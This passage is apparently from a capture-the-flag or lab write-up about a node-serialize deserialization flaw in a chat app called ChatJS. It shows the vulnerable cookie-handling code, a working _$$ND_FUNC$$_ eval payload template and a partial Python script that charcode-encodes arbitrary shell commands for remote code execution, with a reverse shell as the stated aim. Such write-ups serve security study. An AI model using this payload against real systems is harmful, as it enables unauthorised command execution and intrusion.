 Now, if the session is logged in we can reach the unserialize function

```js
var draft = null;
if (req.session.logged_in && req.cookies.draft) {
    draft = serialize.unserialize(new Buffer(req.cookies.draft, 'base64').toString()).msg;
}
```

It's getting the base64 in cookies draft, and serializing it, but just if the user is logged in. Once we already have the bmdyy password, we can login (creating a valid session) and setting manually the draft cookie, then executing it to get RCE and a reverse shell on the docker.

Okay, let's start building our payload to exploit this vulnerability.

We did a little research on the internet and found a [blog](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which explains exactly what you will do here.

1 - Let's try to see if it's vulnerable.

We will use a simple payload in charcode, once I already know that single quotes crashes the app

The payload we will use will be this one

```json
{"run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(PAYLOAD))}()"}
```

We create a simple way to concat the strings in hex to put into the payload

read.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Testing RCE in ChatJS from bmdyy

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def get_command(command):
    return '''
        require('child_process').exec('%s', function(error, stdout, stderr) {
            console.log(error)
            console.log(stdout)
        })
        ''' % (command)

def encode_string(string):
    string_encoded = ''
    for char in string:
        string_encoded += "," + str(ord(char))
    return string_encoded[1:]

def get_rce(command):
    payload = encode_string(get_command(command))
    print("{\"run\": \"_$$ND_FUNC$$_function (){eval(String.fromCharCode(%s))}()\"}" %payload)
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-c', '--command', help='Command to be executed', required=True)
    args = parser.parse_args()
```